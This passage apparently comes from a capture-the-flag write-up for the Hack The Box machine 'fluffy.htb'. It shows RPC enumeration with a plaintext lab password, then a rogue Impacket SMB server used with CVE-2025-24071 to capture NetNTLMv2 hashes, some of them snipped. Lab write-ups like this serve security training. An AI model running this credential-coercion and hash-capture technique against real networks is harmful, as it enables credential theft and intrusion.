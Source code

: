      =======================================
    |    Printers via RPC for fluffy.htb    |
     =======================================
    [92m[+] No printers available[0m
    
    Completed after 82.20 seconds


Some manual enumeration of RPC as we explore the environment and the passwords we have.


```python
!net rpc info -U fluffy/j.fleischman%'J0elTHEM4n1990!' -S fluffy.htb
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    Domain Name: FLUFFY
    Domain SID: S-1-5-21-497550768-2797716248-2627064577
    Sequence number: 1
    Num users: 43
    Num domain groups: 0
    Num local groups: 17



```python
!net rpc info -U fluffy/j.coffey%'J0elTHEM4n1990!' -S fluffy.htb
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    Could not connect to server fluffy.htb
    The username or password was not correct.
    Connection failed: NT_STATUS_LOGON_FAILURE


There's an SMB connection that's going out and we can catch it happening if we set up our own malicious smbserver and trigger [CVE-2025-24071](https://github.com/ThemeHackers/CVE-2025-24071) we found earlier by adding our malicious SMB endpoint with this tool to force our user to connect to our share to get resources.
```sh
[nix-shell:~/ctf/htb/season8/fluffy]$ sudo smbserver.py -smb2support shared .
[sudo] password for tokugero:
Impacket v0.12.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.167.185,50526)
[*] AUTHENTICATE_MESSAGE (FLUFFY\p.agila,DC01)
[*] User DC01\p.agila authenticated successfully
[*] p.agila::FLUFFY:aaaaaaaaaaaaaaaa:e091b5cb<SNIP>
[*] Closing down connection (10.129.167.185,50526)
[*] Remaining connections []
[*] Incoming connection (10.129.167.185,50527)
[*] AUTHENTICATE_MESSAGE (FLUFFY\p.agila,DC01)
[*] User DC01\p.agila authenticated successfully
[*] p.agila::FLUFFY:aaaaaaaaaaaaaaaa:b231c2<SNIP>
[*] Closing down connection (10.129.167.185,50527)
[*] Remaining connections []
[*] Incoming connection (10.129.167.185,50530)
[*] AUTHENTICATE_MESSAGE (FLUFFY\p.agila,DC01)
[*] User DC01\p.agila authenticated successfully
[*] p.agila::FLUFFY:aaaaaaaaaaaaaaaa:<SNIP>
[*] Closing down connection (10.129.167.185,50530)
[*] Remaining connections []

```